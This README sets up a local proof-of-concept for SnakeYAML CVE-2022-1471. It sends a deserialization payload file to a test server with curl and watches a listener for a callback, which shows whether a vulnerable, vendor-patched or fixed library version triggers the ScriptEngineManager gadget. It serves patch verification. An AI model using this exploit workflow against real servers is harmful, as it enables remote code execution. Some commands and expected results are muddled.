



# snakeyaml_cve_poc
SnakeYAML-CVE-2022-1471-POC


## build

Either build the jar on your host with `mvn clean compile assembly:single`

Or use `docker` to build an image with `docker build -t snakeyaml .`

## run

Run the container with `docker run --rm -p8080:8080 snakeyaml`

or the jar if you built on your host with `java -jar target/snakeyaml-1.0-SNAPSHOT-jar-with-dependencies.jar`

or when using jars in lib folder `java -cp "target/snakeyaml-1.0-SNAPSHOT-jar-with-dependencies.jar:libs/*" com.example.snakeyaml.App`

## use

Send a get request to serialize object of student class and send yaml as response


Send a post request with yaml to read YAML object as custom java object - deserialization



## curl command
```shell
curl POST --data-binary @/files/exploit.yaml  -H "Content-type: text/x-yaml" http://localhost:8080
```

## exploit

Execute `python3 -m http.server 8000` to run the http server

Send a post request with yaml containing exploit


You should observe a HTTP GET request on the listner

## Scenarios
The scenarios to test of snakeyaml versions.

### Scenario 1: SnakeYaml v1.33
the original snakeyaml jar that caused the CVE.

**Setup:** update `pom.xml` to have `org.yaml:snakeyaml:1.33`.

```shell
$> java -jar target/snakeyaml-1.0-SNAPSHOT-jar-with-dependencies.jar
```

```shell
$> curl POST --data-binary @/files/exploit.yaml ...
curl: (6) Could not resolve host: POST
File Read, Object Created%  
```

```shell
$> java -jar target/snakeyaml-1.0-SNAPSHOT-jar-with-dependencies.jar

(( curl request happens))

[Thread-0] INFO org.eclipse.jetty.util.log - Logging initialized @96ms to org.eclipse.jetty.util.log.Slf4jLog
[Thread-0] INFO spark.embeddedserver.jetty.EmbeddedJettyServer - == Spark has ignited ...
[Thread-0] INFO spark.embeddedserver.jetty.EmbeddedJettyServer - >> Listening on 0.0.0.0:8080
[Thread-0] INFO org.eclipse.jetty.server.Server - jetty-9.4.z-SNAPSHOT; built: 2019-04-29T20:42:08.989Z; git: e1bc35120a6617ee3df052294e433f3a25ce7097; jvm 11.0.21+0
[Thread-0] INFO org.eclipse.jetty.server.session - DefaultSessionIdManager workerName=node0
[Thread-0] INFO org.eclipse.jetty.server.session - No SessionScavenger set, using defaults
[Thread-0] INFO org.eclipse.jetty.server.session - node0 Scavenging every 600000ms
[Thread-0] INFO org.eclipse.jetty.server.AbstractConnector - Started ServerConnector@4ab3b7c5{HTTP/1.1,[http/1.1]}{0.0.0.0:8080}
[Thread-0] INFO org.eclipse.jetty.server.Server - Started @152ms
com.example.snakeyaml.Student@7f1a8334

```

```shell
$> python3 -m http.server 8000
Serving HTTP on :: port 8000 (http://[::]:8000/) ...
::ffff:127.0.0.1 - - [17/Aug/2024 11:23:19] code 404, message File not found
::ffff:127.0.0.1 - - [17/Aug/2024 11:23:19] "HEAD /META-INF/services/javax.script.ScriptEngineFactory HTTP/1.1" 404 -
```

**Expected result:** HTTP GET request to `localhost:8000`


### Scenario 2: Safeyaml v1.34.1
The Pentaho custom jar work done under https://hv-eng.atlassian.net/browse/PPP-4865.
Introduced a new artifact name  `safeyaml`, but the kept the same namespace `org.yaml.snakeyaml`

**Setup:** Update `pom.xml` to have `com.konloch:safeyaml:1.34.1` or  `org.hitachivantara:safeyaml:1.34.1`. And copy file from local repository `~/.m2/repository/org/hitachivantara/safeyaml/1.34.1/safeyaml-1.34.1.jar` or https://one.hitachivantara.com/ui/repos/tree/General/pntpub-maven-release/org/hitachivantara/safeyaml/1.34.1/safeyaml-1.34.1.jar to this projects folder `libs`.
May have to re-compile with special maven settings due to repository restrictions

```shell
$> mvn clean compile assembly:single -s files/oss-settings.xml
$> java -cp "target/snakeyaml-1.0-SNAPSHOT-jar-with-dependencies.jar:libs/*" com.example.snakeyaml.App
```

```shell
curl POST --data-binary @/files/exploit.yaml ...
```

**Expected result:** HTTP GET request to `localhost:8000`
*This should not have happened, yaml code should have errored out. This should have addressed CVE*

### Scenario 3: Snakeyaml v2.2 Blocks Exploit
This snakeyaml version v2.0+ has code that by default the Yaml constructors are 'restrictive' by `UnTrustedTagInspector` being created when instantiating default `LoadOptions()`. https://bitbucket.org/snakeyaml/snakeyaml/src/59ddbb3304bb8e22e2004d74cddaf9ed4086632e/src/main/java/org/yaml/snakeyaml/LoaderOptions.java#lines-44

**Setup:**
Update `pom.xml` to have `org.yaml:snakeyaml:2.2`.
Comment out the v1.33 line and add this line below:

```shell
$> java -jar target/snakeyaml-1.0-SNAPSHOT-jar-with-dependencies.jar
```
```shell
curl POST --data-binary @/files/exploit.yaml ...
```
Re-compile.


```shell
$> java -jar target/snakeyaml-1.0-SNAPSHOT ...

(( curl request happens))

[Thread-0] INFO org.eclipse.jetty.util.log - Logging initialized @134ms to org.eclipse.jetty.util.log.Slf4jLog
[Thread-0] INFO spark.embeddedserver.jetty.EmbeddedJettyServer - == Spark has ignited ...
[Thread-0] INFO spark.embeddedserver.jetty.EmbeddedJettyServer - >> Listening on 0.0.0.0:8080
[Thread-0] INFO org.eclipse.jetty.server.Server - jetty-9.4.z-SNAPSHOT; built: 2019-04-29T20:42:08.989Z; git: e1bc35120a6617ee3df052294e433f3a25ce7097; jvm 11.0.21+0
[Thread-0] INFO org.eclipse.jetty.server.session - DefaultSessionIdManager workerName=node0
[Thread-0] INFO org.eclipse.jetty.server.session - No SessionScavenger set, using defaults
[Thread-0] INFO org.eclipse.jetty.server.session - node0 Scavenging every 660000ms
[Thread-0] INFO org.eclipse.jetty.server.AbstractConnector - Started ServerConnector@296d5b5d{HTTP/1.1,[http/1.1]}{0.0.0.0:8080}
[Thread-0] INFO org.eclipse.jetty.server.Server - Started @207ms
[qtp75269308-20] ERROR spark.http.matching.GeneralError -
Global tag is not allowed: tag:yaml.org,2002:javax.script.ScriptEngineManager
 in 'reader', line 9, column 14:
    objectField: !!javax.script.ScriptEngineManag ...
```
**Expected result:** Error on App code shell due to Yaml erroring out. `ScriptEngineManager`
HTTP GET request to `localhost:8000` ***never happens***


### Scenario 4: Snakeyaml v2.2 Works with Declared Class
With Snakeyaml version v2.0+, now you have to 'register' or declare the class(es).

**Setup:**
Update `pom.xml` to have `org.yaml:snakeyaml:2.2`.
Comment out the v1.33 line and add uncomment all the code block with v2.0+

```java
org.yaml.snakeyaml.LoaderOptions loaderoptions = new org.yaml.snakeyaml.LoaderOptions();
org.yaml.snakeyaml.inspector.TagInspector taginspector = tag -> tag.getClassName().equals(Student.class.getName());
loaderoptions.setTagInspector(taginspector);
Yaml yaml = new Yaml(new Constructor(Student.class, loaderoptions ));
```
Re-compile.

```shell
$> java -jar target/snakeyaml-1.0-SNAPSHOT-jar-with-dependencies.jar
```
```shell
curl POST --data-binary @/files/test.yaml ...
```


**Expected result:** HTTP GET request to `localhost:8000` ***as expected***


## additional sources
The project was a combination of the below sources:
- https://medium.com/@snyksec/snakeyaml-2-0-solving-the-unsafe-deserialization-vulnerability-c29a0f08f152
- https://www.greynoise.io/blog/cve-2022-1471-snakeyaml-deserialization-deep-dive
- https://www.veracode.com/blog/research/resolving-cve-2022-1471-snakeyaml-20-release-0
